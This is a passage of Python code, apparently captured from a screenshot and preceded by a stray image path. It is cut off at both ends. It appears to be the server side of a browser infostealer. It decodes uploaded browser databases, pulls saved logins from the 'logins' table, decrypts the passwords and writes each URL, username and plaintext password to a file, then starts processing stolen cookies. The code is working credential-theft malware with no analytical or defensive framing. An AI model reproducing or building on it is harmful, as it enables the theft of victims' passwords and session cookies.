                         continue



                    if isinstance(param_value, list):

                        for idx, file_data in enumerate(param_value):

                            try:

                                decoded_data = base64.b64decode(file_data)

                                db_name = f'{browser_name}_{param_name}_{idx}.db'

                                db_path = os.path.join(unique_id_logs_dir, db_name)



                                with open(db_path, 'wb') as db_file:

                                    db_file.write(decoded_data)



                                if param_name == "login_data":

                                    connection = sqlite3.connect(db_path)

                                    cursor = connection.cursor()

                                    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")



                                    for row in cursor.fetchall():

                                        origin_url = row[0]

                                        username_value = row[1]

                                        encrypted_password = row[2]



                                        decrypted_password = decrypt_password(encrypted_password, key)

                                        if decrypted_password and username_value:

                                            passwords_file.write(f'Browser: {browser_name}\n')

                                            passwords_file.write(f'Origin URL: {origin_url}\n')

                                            passwords_file.write(f'Username: {username_value}\n')

                                            passwords_file.write(f'Password: {decrypted_password}\n')

                                            passwords_file.write('\n')



                                    print(f"File {db_name} was successfully saved and passwords were decrypted.")

                                    connection.close()



                                elif param_name == "cookies":

                                    cookies_file_path = os.path.join(unique_id_logs_dir, f'cookies_{browser_name}_{idx}.txt')
